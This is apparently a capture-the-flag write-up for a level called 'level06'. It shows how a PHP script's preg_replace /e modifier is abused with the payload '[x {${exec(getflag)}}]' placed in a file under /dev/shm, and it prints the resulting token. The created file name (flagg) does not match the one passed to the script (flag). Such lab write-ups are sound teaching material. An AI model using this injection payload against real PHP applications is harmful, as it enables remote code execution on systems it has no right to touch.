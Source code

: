 # The PHP script takes two arguments on the command line.
```bash
cat level06.php
```

- Function y($m) takes a string $m as input and modifies it by replacing:
    - Each '.' with 'x'
    - Each '@' with 'y'
    - The function then returns the modified string.

- Function x($y, $z) takes two parameters:
    - It opens a file whose path is specified by $y, reads its contents, and performs several modifications.

- Note: The function preg_replace with the /e option has some vulnerabilities.

# Since I don't have permission to create folders, we'll create a script in the symbolic link of shared files: /dev/shm/

# Create a file in /dev/shm/: 
cat > /dev/shm/flagg

# Content of the created file:
[x {${exec(getflag)}}]

# We created a file containing a string to be processed by the PHP script. 

# The script will search for "x" and then execute what's inside the curly braces: ${exec(getflag)}.

# Execute the PHP script:
./level06 /dev/shm/flag

# Token obtained:
wiok45aaoguiboiki2tuin6ub
